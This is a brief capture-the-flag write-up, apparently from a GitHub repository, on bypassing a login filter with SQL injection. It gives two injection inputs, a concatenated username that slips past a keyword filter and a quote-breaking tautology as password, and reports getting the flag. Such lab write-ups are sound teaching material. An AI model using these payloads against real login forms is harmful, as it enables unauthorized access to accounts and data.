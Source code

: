 SQlI for this:
![image](https://github.com/nhattanhh/CTF/assets/130430279/b8008fdb-b9ae-4460-bbba-0b9d15aceb43)

With this filter:

![image](https://github.com/nhattanhh/CTF/assets/130430279/b2feab1c-eeb7-4bf0-aa83-5420608749a9)

- username: ad'||'min
- password: a' IS NOT 'b

![image](https://github.com/nhattanhh/CTF/assets/130430279/9e8a38c9-4d91-4218-a83a-897a8083814c)

=> Successful bypass, refresh filter page and get the flag.

![image](https://github.com/nhattanhh/CTF/assets/130430279/1afbcf8c-3f38-4b74-b3a1-f982ae44accd)
